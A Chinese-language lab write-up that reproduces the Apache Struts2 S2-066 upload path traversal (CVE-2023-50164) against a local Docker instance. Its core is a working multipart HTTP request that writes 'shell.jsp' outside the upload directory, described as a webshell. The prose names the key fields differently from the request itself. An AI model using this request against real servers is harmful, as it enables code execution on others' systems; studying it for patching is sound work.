




# Struts2 S2-066 文件上传路径穿越漏洞（CVE-2023-50164）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

Apache Struts2 S2-066 是一个存在于文件上传功能中的路径穿越漏洞。攻击者可以通过操纵表单字段名称的大小写，将文件上传到预期上传目录之外的位置。

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：

1. 使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"）
2. 提供一个包含目标路径穿越文件名的单独表单字段

这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## 环境搭建

执行以下命令启动一个用 Struts2 2.5.32 编写的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

首先，尝试将 JSP 文件上传到正常的上传目录：



虽然文件上传成功，但由于服务器配置，JSP 代码无法在上传目录`upload/`中执行：



使用以下请求，利用 S2-066 漏洞将文件上传到上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 表单字段名使用首字母大写（"Upload"）
- 单独的 "uploadFileName" 字段包含路径穿越的 payload：`../shell.jsp`



JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：



现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
